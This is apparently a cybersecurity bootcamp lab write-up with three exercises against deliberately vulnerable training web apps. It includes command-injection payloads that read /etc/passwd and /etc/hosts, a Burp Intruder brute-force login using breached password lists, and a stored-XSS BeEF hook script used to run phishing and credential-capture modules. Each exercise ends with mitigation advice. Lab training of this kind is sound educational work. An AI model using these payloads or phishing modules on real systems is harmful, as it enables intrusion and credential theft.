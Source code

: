 ## Web Application 1: Your Wish is My Command Injection
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         cd ./Documents/web-vulns && docker-compose up
      ```

    * Open a browser and navigate to the following webpage: http://192.168.13.25

    * The web page should look like as the figure below

    * Log in with the following credentials:
      *    Usernmae: admin
      *    Password: password

    * Select the **Command Injection** or access this page directly http://192.168.13.25/vulnerabilities/exec/
    * Entering the IP address `8.8.8.8` press **Submit** to see the results display on the web application.

![Web Application 1_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_1.png)


* Behind the scenes, when we select Submit, the IP you type in the field is injected into a command that is run against the Replicants webserver. The specific command that ran on the webserver is `ping <IP>` and `8.8.8.8` is the field value that is injected into that command.


2.  Now that we have determined that Replicants new application is vulnerable to command injection, we will tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:

      - `/etc/passwd`
   
      - `/etc/hosts`


<details>
<summary> <b> Click here to view Design Command Injection Payloads. </b> </summary>

---

#### How to manipulate the input to cause an unintended result 
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   
![Web Application 1_cat_passwd_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_cat_passwd_1.png)
![Web Application 1_cat_passwd_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_cat_passwd_2.png)

- On the same webpage, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   
![Web Application 1_cat_passwd_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_4.png)
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   
![Web Application 1_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_2.png)

- On the web browser, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   
![Web Application 1_5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_5.png)
   

#### Mitigation Strategies

1. **Input validation** is a method to validate the data input with a predefined logic, ensuring that the input is what the application is expecting. Input validation can be applied on the client-side or the server-side. For example,
   
|          | Function | Example    |
|----------|----------|------------|
| **Client-side**| Input validation involves coding the predefined logic into the webpage.                   | An input can only be chosen from a predefined drop-down menu.     |
| **Server-side**| Input validation involves adding the predefined logic into the code on the web server.    | If a user enters a malicious SQL code and selects submit, then the web server will check and remove it after receiving this malicious input.     |

2. **Avoid Command-Line Calls Altogether** The first prevention method you can do is avoiding command line calls. Because when we’re using command lines, it opens users to risk such as command injection. 
   
3. **Use Built-in APIs Instead of OS Commands** Another method is to shift from using Operating System (OS) commands to much-safer APIs, considering that most reputable APIs have built-in security measures. 
   
4. **Reject Unacceptable Code** We can also use server-level protection, which is blacklisting a set of codes. Simply by only allowing the codes we and our team built prevents any other code from accessing the server. Thus, creating a barrier between the malicious codes and the whole server.
   
5. **Escaping Shell Metacharacters** Also, to prevent any other characters and limit the output of commands, we can use escaping shell metacharacters. This method allows us to expressly grant access depending on the variables. Our developer can set these variables based on our needs.    
   
   
</details>

---


## Web Application 2: A Brute Force to Be Reckoned With
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         sudo burpsuite
      ```

    * Open the Firefox browser and navigate to the following webpage: http://192.168.13.35/install.php.

    * The web page should look like as the figure below. Click **here** to install bWapp.

    * After successfully installing bWapp, log in with the following credentials:
       - Username: bee
       - Password: bug


    * To access the application where we will perform our activity, enter in the following URL: http://192.168.13.35/ba_insecure_login_1.php
    
    * On Firefox browser, make sure the FoxyProxy settings is set to **Burp**.

![Web Application 2_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_1.png)

- This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login:
     - Username: test-user
     - Password: password

![Web Application 2_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_2.png)

* Following was displayed in the Burp Suite in **Proxy** tab under the Intercept - Highlighting the **Login and password** credentials.

![Web Application 2_3](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_3.png)

* From the web application tool Burp Suite, on the **Intercept** tab, right click anywhere to send the information to **Intruder** 
 
   -  Select the **Intruder** tab, and verify the Target tab

![Web Application 2_4](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_4.png)
![Web Application 2_5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_5.png)

   -  Select the **Positions** tab and change the attack type to **Cluster bomb**, also **clear** all payload positions, except for the login and password credentials.

![Web Application 2_6](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_6.png)

* We've been provided with a list of administrators and the breached passwords:
* [ ] [List of Administrators](listofadmins.txt)
* [ ] [Breached list of Passwords](breached_passwords.txt)


<details>
<summary> <b> Click here to view How to conduct a brute force attack. </b> </summary>

---


#### How to conduct a brute force attack against a web application login page with the Burp Intruder function 
   
* Select **Payloads** tab and enter the [List of Administrators](listofadmins.txt) file that provided above into the **Payload Options [Simple list]** for Payload set: 1  

![Web Application 2_7](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_7.png)
   
- Add the password from the [Breached list of Passwords](breached_passwords.txt) file that provided above into the **Payload Options [Simple list]** for Payload set: 2  
   
![Web Application 2_8](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_8.png)

- Click the **Start** attack button to get the results.
   
![Web Application 2_9](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_9.png)

- Results from the analysis that was complete from the Intruder show that there was one successful login username/password combination. 
   
![Web Application 2_10](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_10.png)
   
- It was user name of **" tonystark"** and the password **"I am Iron Man"**. Below snapshots display the successful login in the **Response** tab.

![Web Application 2_11](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_11.png)
   
#### Mitigation Strategies

**Developers** can use several mitigation methods to protect against a brute force attack:

   1.) Require complex usernames and passwords:
For example, require the user to include special characters, upper and lowercase, and numbers in the username and password.

   2.) Lockout accounts after a number of failed attempts:
For example, after three failed login attempts, the user's account gets locked.

   3.) Use multi-factor authentication (MFA):
For example, require users to have a password and a secondary form of authentication, like a pin generated by an external token and/or requiring complex usernames and passwords. 
   
   
</details>

---


### Web Application 3: *Where's the BeEF?*

1. Access Vagrant, open the terminal and and run the command

```
sudo beef
```
When prompted for a password, enter `cybersecurity`.

2. This will kick off the BeEF application and return many details about the application to your terminal. We can access to BeEF's User Interface (UI) by right-click the first URL and select Open Link `UI_URL: http://127.0.0.1:3000/ui/panel`. 

   - When the BeEF webpage opens, login with the following credentials:
     - Username: `beef`
     
     - Password: `feeb`

     ![wd_hw11](Images/wd_hw11.png)

   - You have successfully completed the setup when you have reached the **BeEF Control Panel** shown in the image below:

     ![wd_hw12](Images/wd_hw12.png)

3. Prepare the Replicants website, from the Terminal in Vagrant navigate to ~/Documents/web-vulns directory by

```
cd ~/Documents/web-vulns
```
and run the command

```
sudo docker-compose up
```
![Web Application 3_3.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_3.png)

   - Go to the web browser and enter the following in the address bar `http://192.168.13.25/vulnerabilities/xss_s/` then reset the database and login with the following credentials:
     - Username: `admin`
     
     - Password: `password`
     
     
3. The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
![Web Application 3_4.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_4.png)

- The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`. 

- When trying to inject the payload there was an issue found, in the message box field, there was a limit of `maxlength="50"` character in the source code. Therefore we could not inject the payload.
![Web Application 3_5.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_5.png)

- Solution to solve this issue, right-click on web page < click **Inspector** < In **Inspector windows** scrolling down till we see the `<textarea name="mtxMessage"
cols="50" rows="3" maxlength="50">` then now we can edit from 50 to any bigger number  
![Web Application 3_6.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_6.png)

Now we are able to hook into Replicants website, so next we will attempt a couple BeEF exploits including:

   - Social Engineering >> Pretty Theft

   - Social Engineering >> Fake Notification Bar

   - Host >> Get Geolocation (Third Party)


<details>
<summary> <b> Click here to view How to Exploiting XSS with BeEF. </b> </summary>

---


#### How to conduct a brute force attack against a web application login page with the Burp Intruder function 

- First, we'll attempt a social engineering exploit to create a fake Log-in to user. We can use this to capture victim credentials.
- To access this exploit, navigate to **BeEF Control Panel** < select current hooked browser < go to **Commands** tab < expanding **Social Engineering** < click **Google Phishing**.
- To launch th exploit, click **Execute** button in the bottom right corner.

![Web Application 3_8.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_8.png)   

- After executed, return to the browser that has been changed to a Google Mail Login page.     
   
![Web Application 3_9.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_9.png)
   
- The victim could easily mistake entering their credentials. Use the following credentials to login to this fake Google Mail page.
   
![Web Application 3_10.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_10.png)   
   
- Return to the BeEF control panel, in the center windows we'll see the module history command. Click that command to see the results in the last windows panel.
   
![Web Application 3_11.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_11.png)  
   
- As we saw, the username and password have been captured. Now we can try on another method as the following:
   
   - Social Engineering >> Pretty Theft

![Web Application 3_12.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_12.png) 
   
![Web Application 3_13.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_13.png) 
   
![Web Application 3_14.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_14.png) 

   - Social Engineering >> Fake Notification Bar
![Web Application 3_15.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_15.png) 

   - Host >> Get Geolocation (Third Party)
![Web Application 3_16.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_16.png)
   
#### Mitigation Strategies

**BeEF** is an exploitation tool that focuses on a specific client-side application: the web browser. BeEF allows an attacker to inject a JavaScript code into a vulnerable HTML code using an attack such as XSS or SQL injection. This exploit code is known as hook. A compromise is achieved when the hook is executed by the browser. The browser (zombie) connects back to the BeEF application, which serves JavaScript commands or modules to the browser. BeEF's modules perform tasks such as the following:

   1.) Fingerprinting and the reconnaissance of compromised browsers. It can also be used as a platform to assess the presence of exploits and their behavior under different browsers.

   2.) Detecting software on the client (Internet Explorer only) and obtaining a list of the directories in the Program Files and Program Files (x86)directories. This may identify other applications that can be exploited to consolidate our hold on the client.

   3.) Taking photos using the compromised system's webcam; these photos have a significant impact in reports.
   
   4.) onducting searches of the victim's data files and stealing data that may contain authentication credentials (clipboard content and browser cookies)  or other useful information.
   
   5.) Implementing browser keystroke logging.
   
   6.) onducting network reconnaissance using ping sweeps and fingerprint network appliances and scanning for open ports.
   
   7.) Launching attacks from the Metasploit Framework.
   
   8.) Using the tunneling proxy extension to attack the internal network using the security authority of the compromised web browser.
   
Because BeEF is written in Ruby, it supports multiple operating systems (Linux, Windows, and OS X). More importantly, it is easy to customize new modules in BeEF and extend its functionality.
   
There may be both technical recommendations (e.g., applying a particular patch) and non-technical recommendations that address the organization’s processes (e.g., updating the patch management process).

1. Deployment of OS and application patches. Maintaining and updating a patch management program is a necessary component in reducing the attack surfaces. 

2. Security architecture changes. External and Internal networks should be separated by different trust boundaries, with packet filtering controls at the nodes in order to reduce an attacker’s access to sensitive information.

3. Review file permissions and use the least privilege principle.

4. Conduct regular vulnerability assessments. Regular vulnerability assessments are needed for the timely discovery and patching of new previously undiscovered vulnerabilities.
   
5. Defend web applications against the OWASP Top 10 Security Risks - Policy, process, and procedure modifications including deployment of new security technologies.   
   
   
   
</details>

---




---

### Citations and References:

#### General Resources:

- InfoTech News. Command Injection: What It Is And How To Prevent It. [cited 2021 September 29]. Available from: [meterpreter.org](https://meterpreter.org/command-injection-what-it-is-and-how-to-prevent-it/).
- Akshat Khare. Parth Chopra. Rahul Motwani. Web Applications Penetration Testing. Center of Excellence in Cyber Systems and Information Assurance (CoE-CSIA), IIT Delhi. [cited 2021 October 1]. Available from: [cse.iitd.ac.in](https://www.cse.iitd.ac.in/~cs1160315/WebPenetrationTesting.pdf)
- Karen Scarfone (NIST), Murugiah Souppaya (NIST), Amanda Cody (BAH), Angela Orebaugh (BAH). Technical Guide to Information Security Testing and Assessment. NIST National Institute of Standards and Technology. [cited 2021 October 1]. Available from:[nist.gov/publications/](https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-115.pdf).
- Robert W. Beggs. Mastering Kali Linux for Advanced Penetration Testing. ISBN 978-1-78216-312-1. Packt Publishing Ltd. [cited 2021 October 1]. Available from: [Book club](http://www.happyfunnyland.com/downloads/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-Beggs-Robert.pdf)


#### Special thanks:
© Trilogy Education Services, a 2U, Inc., Instructor Jerry and TAs; Matt, Jansen, Micheal.

© The University of Texas at Austin Boot Camp, The Cybersecurity program.

---
